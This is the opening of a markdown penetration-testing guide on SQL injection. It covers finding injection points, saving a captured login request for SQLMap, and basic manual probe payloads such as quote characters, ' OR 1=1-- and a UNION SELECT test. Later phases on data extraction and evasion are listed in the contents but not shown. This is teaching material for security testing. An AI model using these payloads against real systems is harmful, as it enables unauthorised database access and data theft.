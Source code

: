 # How to Approach SQL Injection

## Table of Contents

1. [Reconnaissance & Discovery](#reconnaissance--discovery)
2. [Manual Testing & Validation](#manual-testing--validation)
3. [SQLMap Basic Detection](#sqlmap-basic-detection)
4. [Enumeration Phase](#enumeration-phase)
5. [Data Extraction](#data-extraction)
6. [Post-Exploitation](#post-exploitation)
7. [Evasion & Advanced Techniques](#evasion--advanced-techniques)

---

## Phase 1: Reconnaissance & Discovery

### 1.1 Identify Potential Injection Points
```bash
# Target identification priorities:
1. URL parameters (?id=1, ?search=test)
2. POST form data (login forms, search forms)
3. HTTP headers (User-Agent, X-Forwarded-For, Cookie)
4. JSON/XML API endpoints
5. File upload parameters
```

### 1.2 Capture Requests
```bash
# Use Burp Suite or browser dev tools to capture:
# - Full HTTP request (including headers)
# - POST data structure
# - Session tokens and cookies
# - API request format

# Save request to file for SQLMap
# Example request.txt:
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=abc123

username=admin&password=test
```

---

## Phase 2: Manual Testing & Validation

### 2.1 Quick Manual Tests
```bash
# Test with basic payloads:
'           # Single quote (look for SQL errors)
"           # Double quote
')'         # Close parenthesis
' OR 1=1--  # Basic boolean injection
' UNION SELECT 1-- # UNION test
```

